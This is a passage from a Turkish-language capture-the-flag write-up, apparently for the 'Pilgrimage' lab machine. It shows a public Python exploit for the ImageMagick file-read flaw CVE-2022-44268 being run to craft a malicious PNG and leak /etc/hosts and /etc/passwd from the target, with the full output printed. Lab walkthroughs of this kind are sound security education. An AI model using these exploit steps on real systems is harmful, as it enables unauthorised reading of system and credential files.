 
#### Script

Bu repoda exploit'in güzel bir Python versiyonu var. Kötü amaçlı bir görüntü oluşturmak için bir kez çalıştırıyorum ve ardından sonuçları almak için sitedeki görüntüyü tekrar işaret ediyorum:

```
oxdf@hacky$ python CVE-2022-44268.py --image poc.png --file-to-read /etc/hosts --output pngout.png

oxdf@hacky$ python CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/655cda5792e0d.png
127.0.0.1       localhost
127.0.1.1       pilgrimage pilgrimage.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```


### Enumerate File System

#### Home Directories

Kutudaki kullanıcıları /etc/passwd dosyasında kontrol ederek başlayacağım:

```
oxdf@hacky$ python CVE-2022-44268/CVE-2022-44268.py --image poc.png --file-to-read /etc/passwd --output pngout.png
oxdf@hacky$ python CVE-2022-44268/CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/655cdab09c70e.png
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```
